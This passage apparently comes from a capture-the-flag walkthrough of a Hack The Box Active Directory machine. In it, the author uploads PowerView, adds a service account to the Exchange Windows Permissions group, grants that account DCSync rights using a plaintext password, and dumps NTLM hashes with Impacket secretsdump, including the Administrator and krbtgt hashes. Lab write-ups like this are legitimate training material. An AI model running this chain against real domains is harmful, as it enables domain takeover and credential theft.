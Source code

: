 We are going to use `PowerView`
```bash
# once logged in via win-rm, upload powerview from your local machine 
upload /root/Downloads/dev_PowerSploit/PowerSploit/Recon/PowerView.ps1 .\\PowerView.ps1

# import the uploaded powerview script
Import-Module .\\PowerView.ps1

# Define variables for better understanding and value assignement
$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\\svc-alfresco', $SecPassword)

# Add svc-alfresco to EXCHANGE WINDOWS PERMISSIONS group
Add-ADGroupMember -Identity "EXCHANGE WINDOWS PERMISSIONS" -Members 'svc-alfresco'
```

### Grant DCSync rights to user 

Granting `DCSync` rights to user svc-alfresco using `PowerView`
```
Add-DomainObjectAcl -TargetIdentity 'DC=htb,DC=local' -Rights DCSync -Verbose -PrincipalIdentity 'htb\\svc-alfresco' -credential $Cred 
```

## Dump secrets

Next, now that `svc-alfresco` has gained `DCSync` rights, we can run `secretdump` remotely from our host:
```bash
secretsdump.py svc-alfresco:s3rvice@10.129.95.210 -dc-ip 10.129.95.210
```

```bash
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up...
```
nice! as you can see above, we dumped the `NTDS.DIT secrets`, thus getting the NTLM hash of the administrator!
